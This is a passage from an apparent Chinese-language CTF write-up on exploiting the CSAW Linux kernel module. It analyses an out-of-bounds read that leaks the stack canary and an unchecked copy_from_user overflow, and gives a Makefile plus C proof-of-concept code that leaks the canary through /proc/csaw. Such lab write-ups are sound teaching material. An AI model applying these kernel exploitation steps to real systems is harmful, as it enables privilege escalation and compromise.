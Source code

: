 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>Makefile我改成了自己的：</font></br>

```makefile
obj-m := csaw.o  

KERNELDR := /home/fanda/Desktop/file/linux-2.6.32.1
BUSYDIR  := /home/fanda/Desktop/file/busybox-1.29.3/_install/mytest
PWD := $(shell pwd)  

modules:  
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules  
	gcc -o poc poc.c -static
	rm $(BUSYDIR)/*.ko
	rm $(BUSYDIR)/poc
	cp *.ko $(BUSYDIR)
	cp poc $(BUSYDIR)
	cd $(BUSYDIR)/../ && find . | cpio -o --format=newc > ../rootfs.img
clean:  
	rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>仿佛回到了刚学pwn入门学stack overflow一样了嘿嘿。首先根据注释我们可以得到模块应该是**开启了栈保护**，也就是有一个**canary**的；然后从注册模块的函数看起，可以看到设置了read_proc和write_proc函数：</font></br>

- csaw_read：函数初始化了一个局部缓冲区，写入了一个字符串，然后根据传入参数的偏移给用户层的缓冲区复制数据。这里有一个明显的问题就是**off偏移是可以由用户层指定的**，这样的话如果有一个**特定的off就可以泄漏出stack canary**。

- csaw_write：漏洞更加明显，**copy_from_user函数的参数count直接从用户层得到，这就使得可以传入任意大小的数值，可以写入任意长度的数据**。

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来我们先泄漏canary，思路很简单，read时首先设置一个偏移，然后直接读取出来就行了：</font></br>

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>

int main(int argc, char *argv[])
{
    int fd = open("/proc/csaw", O_RDWR);
    if (!fd) {
        printf("error\n");
        exit(1);
    }
    lseek(fd, 16, SEEK_CUR); // 设置偏移，使得读取的数据包含canary
    char buffer[64] = {0};
    read(fd, buffer, 64); 
    int i, j;
    for (i = 0; i < 4; i++) { // 打印从内核读出的数据
        for (j = 0; j < 16; j++) printf("%02x ", buffer[i*16+j] & 0xff);
        printf(" | ");
        for (j = 0; j < 16 ; j++) printf("%c", buffer[i*16+j] & 0xff);
        printf("\n");
    }
    char canary[4] = {0};
    memcpy(canary, buffer+32, 4); // canary在dump数据里的偏移
    printf("CANARY:");
    for (i = 0; i < 4; i++) printf("%02x", canary[i] & 0xff);
    printf("\n");
    return 0;
}

```
